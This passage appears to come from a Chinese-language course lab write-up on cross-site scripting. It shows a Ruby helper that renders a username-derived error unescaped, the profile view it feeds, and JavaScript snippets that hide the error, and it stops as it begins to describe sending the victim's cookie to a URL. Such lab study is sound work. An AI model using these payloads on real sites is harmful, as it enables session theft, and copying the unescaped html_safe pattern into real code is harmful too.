 先查找用户是否存在，如果用户不存在，那么就直接计算 `@username` 的值并且输出错误信息。

在 `helpers/application_helper.rb` 中可以看到：

```ruby
  def display_error(error_msg)
    if not error_msg or error_msg == ""
      return ""
    else 
      "<p class='error'>#{error_msg}</p>".html_safe
    end
  end
```

错误信息的 `class` 为 `error`。

在 `/view/user/profile.html.erb` 中，可以看到错误信息输出的位置：

```ruby
<% @title = "Profile" %>

<h3>View profile</h3>

<form class="pure-form" action="/profile" method="get">
    <input type="text" name="username" value="<%= @username %>" placeholder="username">
    <input class="pure-button" type="submit" value="Show">
</form>

<%= display_error(@error) %>
```

 ### 攻击原理

**spring 2022 版**

正常访问一个不存在的用户会出现一个蓝色错误信息：

![image-20220504161327501](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504161327501.png)

从上面的分析可知，可以使用 html 代码进行隐藏：

```html
<p hidden>hello
```

也可以使用 JavaScript 代码进行隐藏：

```javascript
const error_msg = document.getElementsByClassName('error')[0];
error_msg.parentNode.removeChild(error_msg);
```

或者

```javascript
document.getElementsByClassName('error')[0].hidden = true;
```

然后将 cookie 信息发送到指定 url：
